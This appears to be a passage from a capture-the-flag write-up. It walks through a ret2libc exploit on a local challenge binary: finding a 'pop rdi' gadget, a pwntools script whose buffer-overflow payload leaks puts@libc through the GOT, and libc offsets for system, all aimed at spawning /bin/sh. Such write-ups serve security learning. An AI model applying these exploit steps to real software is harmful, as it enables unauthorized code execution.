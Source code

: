 ### ROPgadget
We need `rdi` register to pass the argument.

```sh
$> ROPgadget --binary chall_patched | grep "pop rdi"
0x0000000000400653 : pop rdi ; ret
```

### Script to leak libc
```py
from pwn import *

# setup the binary
elf = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.39.so")

p = process("./chall_patched")
context.binary = elf

# leaking puts@libc
payload = b'A' * 72 # padding
payload += p64(0x400653) # pop rdi ; ret
payload += p64(0x601018) # puts@GOT into the function argument
payload += p64(0x400490) # puts@plt
payload += p64(0x4005a7) # return to main so we can see output
p.sendline(payload) 

# puts@libc leak
p.recvuntil("make it!\n")
leak = u64(p.recvline().strip().ljust(8, b'\x00')) # in short, converts to 64 bit int
log.info("puts@libc leak address: " + hex(leak))
```

When u run the script you should see something like this (your address may vary):
```shell
[*] puts@libc leak address: 0x7fa463687bd0
```

### Now we have a leak, so what?
Now that we have a leaked address, we use it to calculate for libc base address. This can help us find addresses of functions we want to use for our exploit.

In this case we want to call our own shell (`/bin/sh`) using `system` to grab the flag.

### Finding offsets of functions

```shell
objdump -T libc.so.6 | grep -E "(system$|puts$)"
0000000000087bd0  w   DF .text  0000000000000226  GLIBC_2.2.5 puts
0000000000058740  w   DF .text  000000000000002d  GLIBC_2.2.5 system
```
